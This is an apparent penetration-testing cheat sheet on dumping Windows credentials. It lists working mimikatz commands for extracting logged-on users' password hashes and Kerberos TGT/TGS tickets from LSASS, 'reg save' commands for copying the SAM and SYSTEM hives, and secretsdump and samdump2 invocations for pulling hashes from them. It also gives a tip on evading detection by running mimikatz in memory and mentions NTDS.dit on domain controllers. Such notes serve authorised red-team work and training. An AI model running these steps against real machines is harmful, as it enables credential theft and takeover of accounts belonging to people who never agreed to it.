 # Dump Password Hashes

Since implementation of Kerberos authentication, password hashes must be stored somewhere in memory (in order to renew TGT requests). In modern Windows versions hashes are stored in the LSASS memory space.

## Mimikatz

We can use mimikatz (from an administrative console) to gain access to the hashes stored on the target.

**Note:** In order to avoid mimikatz as standalone application, we can try to execute it directly from memory or built-in tools like Task Manager to dump the entire LSASS process memory and extract the data from another machine.

### Users Logged On Hashes

In order to dump hashes for all users logged on to the current workstation or server (including RDP connections), we execute:

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

### Users Logged On TGT & TGS Tickets

We can use mimikatz to exract TGT & TGS Kerberos tickets to exploit it's authentication mechanism.

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets
```

_____

## Obtaining Windows SAM & SYSTEM files (local)

> If we have access to SAM and SYSTEM files we can use impacket-secreptsdump to extract the user hashes:

Files are located at: C:\Windows\System32\config\, obtain them with:

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Now execute use one of the following techniques in order to extract the hashes:

```bash
impacket-secretsdump -sam $SAMFILE -system $SYSTEMFILE local
```

```bash
samdump2 system sam
```
_____

## Obtaining AD hashes (domain)

In a domain environment, hashes for all account in Active Directory are stored on the Domain Controller in a file called **"NTDS.dit"**.

More info about how to extract those hashes: [Link](https://ultimatewindowssecurity.com/blog/defualt.aspx?d=10/2017)
